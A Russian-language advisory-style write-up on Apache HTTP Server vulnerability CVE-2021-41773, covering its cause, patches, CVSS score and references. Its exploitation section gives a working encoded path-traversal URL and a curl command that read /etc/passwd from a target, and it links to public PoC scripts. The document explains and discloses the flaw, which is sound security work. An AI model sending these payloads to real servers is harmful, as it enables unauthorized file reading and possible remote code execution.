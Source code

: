 # **CVE-2021-41773**

---

## **Описание**

Возникает в сервере Apache версии **2.4.49** и **2.4.50**. Причиной появления уязвимости является изменение, внесенное в нормализацию пути. Уязвимость позволяет:

- **Прочитать файлы на сервере.**
- В случае неправильной конфигурации — **выполнять удаленное выполнение кода** на сервере.

Уязвимость возникает из-за ошибки в обработке URL-запросов с использованием специальной последовательности (`../`). Эта ошибка позволяет **обойти ограничения**, наложенные на доступ к файловой системе. Если сервер настроен для использования файлов `.htaccess`, уязвимость позволяет получать доступ к файлам **за пределами корневого каталога веб-сервера**.

---

## **Патчи**

- Уязвимость была **криво исправлена** в обновлении **2.4.50** (выпущено **04/10/2021**), из-за чего она также затронула эту версию.
- Полностью устранена в версии **2.4.51** (выпущено **07/10/2021**).

---

## **Метрики**

- **Вектор:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`
- **Рейтинг:** **7.5** (Высокий)
- **Уязвимые версии:**
  - `cpe:2.3:a:apache:http_server:2.4.49`
  - `cpe:2.3:a:apache:http_server:2.4.50`
- Версии **до 2.4.49** и **после 2.4.50** — не затронуты.

---

## **Материалы**

- [CVE-2021-41773 (cve.mitre.org)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773)
- [NVD CVE-2021-41773 (nist.gov)](https://nvd.nist.gov/vuln/detail/cve-2021-41773)
- [Qualys Blog Post](https://blog.qualys.com/vulnerabilities-threat-research/2021/10/27/apache-http-server-path-traversal-remote-code-execution-cve-2021-41773-cve-2021-42013)
- [Apache HTTP Server Vulnerabilities](https://httpd.apache.org/security/vulnerabilities_24.html)

---

## **Эксплуатация**

### **Условия для успешной эксплуатации**

1. Сервер использует Apache HTTP Server версии **2.4.49** или **2.4.50**.
2. Конфигурация сервера включает директиву: 
    ```apache
    <Directory "/path/to/webroot">
        Require all granted
    </Directory>
    ```
3. Сервер позволяет доступ к CGI-скриптам (например, `/cgi-bin/`).

### **Возможности**

- **Чтение файлов**, находящихся на внутреннем сервере (например, `/etc/passwd`).
- **Удаленное выполнение кода**, если можно загрузить вредоносный файл на сервер.

### **Процесс эксплуатации**

1. Использование URL с кодированием для обхода защиты:

http://ip:port/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd

2. С помощью инструмента `curl`:

curl -s --path-as-is "http://iptarget:80/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

3. Если сервер уязвим, возвращается содержимое файла `/etc/passwd`.

---

## **Публичные эксплойты**

- [lorddemon PoC](https://github.com/lorddemon/CVE-2021-41773-PoC/blob/main/CVE-2021-41773.py)
- [walnutsecurity PoC](https://github.com/walnutsecurity/cve-2021-41773/blob/main/cve-2021-41773.py)
- [iilegacyyii PoC](https://github.com/iilegacyyii/PoC-CVE-2021-41773/blob/main/CVE-2021-41773.py)
